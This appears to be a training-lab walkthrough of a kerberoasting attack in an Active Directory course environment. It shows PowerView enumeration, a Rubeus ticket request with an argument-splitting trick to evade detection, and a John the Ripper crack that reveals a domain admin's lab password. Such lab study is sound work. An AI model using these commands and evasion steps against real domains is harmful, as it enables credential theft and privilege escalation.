 # Learning Objective 14 (Domain Privilege Escalation | Kerberoasting)

## Tasks

1. **Using the kerberoasting attack, crack password of a SQL server service account**

---

## Solution

1. **Using the kerberoasting attack, crack password of a SQL server service account**

First, **we need to find services running with user accounts as the services running with machine accounts have difficult passwords**.

We can use PowerView or ADModule for discovering such services.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount            : 39
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 2/14/2025 1:45:16 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin👤
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/14/2025 9:45:16 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {2/14/2025 3:40:35 PM, 2/14/2025 2:40:35 PM, 2/14/2025 1:40:35 PM, 2/14/2025 12:40:35 PM...}
serviceprincipalname  : {MSSQLSvc📌/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname             : svc
usnchanged            : 1139619
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 2/14/2025 4:58:23 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin

[SNIP]
```

Neat! The `svcadmin`, which is a domain administrator has a SPN set! Let's kerberoast it!

**Rubeus and John the Ripper**

We can use Rubeus to get hashes for the `svcadmin` account.

**Note that we are using the `/rc4opsec` option that gets hashes only for the accounts that support RC4.** This means that if `This account supports Kerberos AES 128/256 bit encryption` is set for a service account, the below command will not request its hashes.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
```
❌

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\ArgSplit.bat`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: kerberoast📌
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

```
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

`echo %Pwn%`:
```
kerberoast
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
[SNIP]

[*] Action: Kerberoasting📌

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : svcadmin👤
[*] Target Domain          : dollarcorp.moneycorp.local
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
[*] Searching path 'LDAP://dcorp-dc.dollarcorp.moneycorp.local/DC=dollarcorp,DC=moneycorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svcadmin)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\hashes.txt📌
```

We can now use John the Ripper to brute-force the hashes.

Please note that you need to remove ":1433" from the SPN in `hashes.txt` before running John.

`type C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CF...

[SNIP]
```

`notepad C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CFE78D3...

[SNIP]
```

`C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*ThisisBlasphemyThisisMadness!!🔑 (?)
1g 0:00:00:00 DONE (2025-02-14 08:05) 10.10g/s 20686p/s 20686c/s 20686C/s energy..mollie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
🚩

---
---
